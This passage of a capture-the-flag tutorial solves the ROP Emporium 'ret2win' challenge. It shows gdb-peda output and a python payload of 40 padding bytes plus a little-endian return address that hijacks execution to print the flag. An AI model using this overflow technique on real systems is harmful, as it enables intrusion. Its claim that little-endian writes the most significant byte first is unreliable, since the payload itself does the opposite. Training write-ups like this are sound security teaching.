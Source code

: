 ```
gdb-peda$ run < <(python -c 'print("A"*40 + "B"*8)')

<REDUCED FOR BREVITY>
[----------------------------------registers-----------------------------------]
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe138 ("BBBBBBBB\n\a@")      <-- We can see that all 8 bytes have overwritten RSP
RIP: 0x400755 (<pwnme+109>:	ret)
```

Now we'll grab the memory address for ret2win, and replace the B's with that. Don't forget we'll be using little-endian, so we'll be writing it with the most significant byte first.

```
gdb-peda$ info addr ret2win
Symbol "ret2win" is at 0x400756 in a file compiled without debugging.

gdb-peda$ run < <(python -c 'print("A" * 40 + "\x56\x07\x40\x00\x00\x00\x00\x00")')
Starting program: /home/user/Downloads/ropemporium/ret2win < <(python -c 'print("A" * 40 + "\x56\x07\x40\x00\x00\x00\x00\x00")')
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
[Attaching after process 3046 fork to child process 3049]
[New inferior 2 (process 3049)]
[Detaching after fork from parent process 3046]
[Inferior 1 (process 3046) detached]
process 3049 is executing new program: /usr/bin/dash
[Attaching after process 3049 fork to child process 3050]
[New inferior 3 (process 3050)]
[Detaching after fork from parent process 3049]
[Inferior 2 (process 3049) detached]
process 3050 is executing new program: /usr/bin/cat
ROPE{a_placeholder_32byte_flag!}                         <-- We did it!
```

Let's just double check this all works outside of the debugger. Copy and paste your python line, exit the GDB, then pipe the python command to the binary:

```
$ python -c 'print("A" * 40 + "\x56\x07\x40\x00\x00\x00\x00\x00")' | ./ret2win 
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

Awesome, so we completed our first of many ROP chains. I hope this has helped you on your journey, and given you a bit little bit of motivation to learn more.

-Jeremy

